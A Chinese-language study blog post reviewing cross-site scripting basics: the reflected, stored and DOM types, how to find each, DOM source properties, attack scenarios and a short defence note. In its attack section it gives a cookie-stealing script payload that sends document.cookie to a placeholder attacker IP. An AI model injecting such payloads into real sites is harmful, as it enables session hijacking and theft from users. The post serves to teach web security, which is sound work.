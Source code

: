 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      复习日记-web基础-XSS               # 标题 
subtitle:   回顾以及整理一下自己的知识文档
date:       2020-03-27              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```




## 0x00简述：
`Cross-site Scripting`:
>跨站脚本攻击：往web页面或者数据库中注入恶意Script代码，当用户浏览该页面时script脚本会被执行，从而达到恶意攻击用户的目的。
xss函数通常通过输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行，所以xss漏洞的关键在于寻找参数未过滤的输出函数。
我们来介绍一下xss的类型：反射型xss、存储型xss和Dom型
- 1、反射型XSS：通过发出含xss代码的恶意链接并经由用户点击访问该链接后返回带有xss代码的恶意脚本触发该类型攻击，重要的是反射型xss是一次性的，不会损害服务器。
挖掘思路：
对于大多数反射型的xss，都是通过url进行传播，所以我们首先寻找的是哪些url的参数可以在页面中显示，例如大多数的搜索栏，查询等，由于浏览器越来越智能的筛选xss，自带反射型xss过滤，所以这类漏洞会越来越少。
- 2、存储型XSS：攻击者把脚本放在目标服务器的数据库或者文件中，有很高的隐蔽性（多见于论坛，博客和留言板）。
挖掘思路：
这类xss代码都是存在于服务端，因此我们要找到的是网站将数据存储到后端的功能，正是如此才能实现存储型xss。
- 3、DOM型XSS：是一种基于DOM文档对象模型的一种漏洞，DOM型不会和后台交互，是完完全全的web前端安全问题，当客户端的脚本程序可以通过DOM动态地检查和修改页面，而且攻击者可以控制一些DOM对象时，该漏洞即可触发
挖掘思路：
这类xss中，如果页面js中存在获取外部输入内容的可利用函数，且外部输入内容未经过有效过滤就传入危险的输出函数直接输出到页面中或传入eval等危险执行函数就会在页面上直接解析恶意js代码，导致DOM型xss的存在。
其中可利用函数可以为：
`document.URL`
`document.URLUnencoded`
`document.location（及其许多属性）`
`document.referrer`
`window.location（及其许多属性）`
`location`
`location.href`
`location.search`
`location.hash`
`location.pathname`

## 0x01 攻击举例：
- 1、劫持会话：（非httponly）
>大多数web应用程序都维护用户会话，以便标识用户，因此用户会话cookie是敏感信息，如果攻击者能通过劫持该会话冒充合法用户，则称为会话劫持。
简单的实例思路：
xss攻击语句：`<script>alert(document.cookie)</script>`直接弹出  
`<script>new image().src="http://ip/port?output="+document.cookie;</script>`发送会话cookie到攻击者控制的机器。
我们首先可以尝试直接弹出会话cookie确认，如需cookie文件的可以使用第二个payload发送cookie。
- 2、执行未经授权的活动
>在可控参数中，利用javascript的适当参数，将请求伪造到用户页面，诱惑其点击即可，我们在可控参数中可以将scirpt脚本的功能进行描述实现，一般来说伪造的是http请求。
- 3、网络钓鱼
>payload为表单，将表单注入到易受xss攻击的页面，然后发送用户数据到攻击者指定的服务器
- 4、窃取敏感信息
>在我们的服务器上面构建出具有窃取敏感信息（截屏发文件等）功能的js文件，以及敏感信息处理文件，一旦受害者访问我们的链接，敏感信息文件就会发送到相应的服务器上。

## 0x02结论
xss漏洞能带来重大风险，不容小觑，xss攻击可能窃取机密信息，冒充用户，执行未经授权的活动等。

保护措施：最好的便是将特殊符号转化为等效的html实体，这样就能防止script脚本的执行。




